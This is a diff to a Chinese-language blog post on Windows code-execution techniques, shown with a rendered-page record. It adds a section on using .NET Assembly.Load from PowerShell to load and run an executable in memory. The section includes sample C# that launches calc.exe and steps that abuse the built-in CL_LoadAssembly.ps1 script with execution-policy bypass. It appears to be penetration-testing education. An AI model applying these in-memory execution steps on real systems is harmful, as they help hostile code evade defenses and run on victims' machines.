

Before and after one commit to Urahara3389/Urahara3389.github.io, a Jekyll site: the page built from _posts/2017-12-28-windows to download and execute arbitrary code.markdown, in a window 1280 px wide and 1400 px high, scrolled down 13636 px. Shown: the whole window at 92% size, without its empty margins (233-1233 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
windows to download and execute arbitrary code

````diff
--- a/_posts/2017-12-28-windows to download and execute arbitrary code.markdown
+++ b/_posts/2017-12-28-windows to download and execute arbitrary code.markdown
@@ -566,7 +566,55 @@
 PS C:\> SyncInvoke cmd.exe "/c ipconfig > E:\ip.txt"
 ```
 
+#### Assembly.Load
 
+[Assembly.load](https://msdn.microsoft.com/en-us/library/system.reflection.assembly.load(v=vs.110).aspx)是.Net Framework中[System.Reflection](https://docs.microsoft.com/zh-cn/dotnet/api/system.reflection?view=netframework-4.7.1) namespace中的一种方法，该方法会有多个重载版本，其中一个就是提供程序集的详细信息，即程序集的标识，包括程序集的名称，版本，区域信息，公有密钥标记,全部都是以一个字符串的形式提供，例如：“MyAssembly,Version=1.0.0.0,culture=zh-CN,PublicKeyToken=47887f89771bc57f”。它可以从内存、本地磁盘或者URL当中调用文件。.NET程序集最初只是读取权限，为了枚举与二进制文件相关联的方法和属性，又将权限更改为执行。所以这种方法只能执行C#编译的程序。
+
+这里使用以下代码进行介绍
+
+```C#
+namespace nsfocus
+{
+    public class test
+    {
+        public static void exec()
+        {
+            System.Diagnostics.Process proc = new System.Diagnostics.Process();
+            proc.StartInfo.FileName = "c:\\windows\\system32\\calc.exe";
+            proc.Start();
+        }
+        static void Main(string[] args)
+        {
+            exec();
+        }
+    }
+}
+```
+
+这样利用Assembly.Load在powershell中直接将文件读取到内存当中，并执行代码当中的shellcode
+
+```powershell
+PS C:\> $bytes = [System.IO.File]::ReadAllBytes(".\nsfocus.exe")
+PS C:\> [Reflection.Assembly]::Load($bytes)
+PS C:\> [nsfocus.test]::exec()
+```
+
+另外在windows自带的诊断工具中有一个CL_LoadAssembly.ps1文件其中也用到了该方法，同样可以用上述方法来执行C#的程序，步骤如下
+
+```powershell
+PS C:\> # powershell -v 2 -ep bypass
+PS C:\> cd C:\windows\diagnostics\system\AERO
+PS C:\windows\diagnostics\system\AERO> import-module .\CL_LoadAssembly.ps1
+PS C:\windows\diagnostics\system\AERO> LoadAssemblyFromPath ..\..\..\..\nsfocus.exe
+PS C:\windows\diagnostics\system\AERO> [nsfocus.test]::exec()
+```
+
+需要注意利用CL_LoadAssembly.ps1时，它只能执行通过.NET 2.0编译完成的程序，并且执行过程中它会调用同目录下的CL_Utility.ps1脚本，因此脚本执行必须在当前目录(C:\windows\diagnostics\system\AERO)下，另外加载的可执行程序路径也只能该路径的相对路径。
+
+Links:
+
+- https://pentestlab.blog/tag/assembly-load/
+- https://holdmybeersecurity.com/2016/09/11/c-to-windows-meterpreter-in-10mins/
 
 ### 参考
 
````
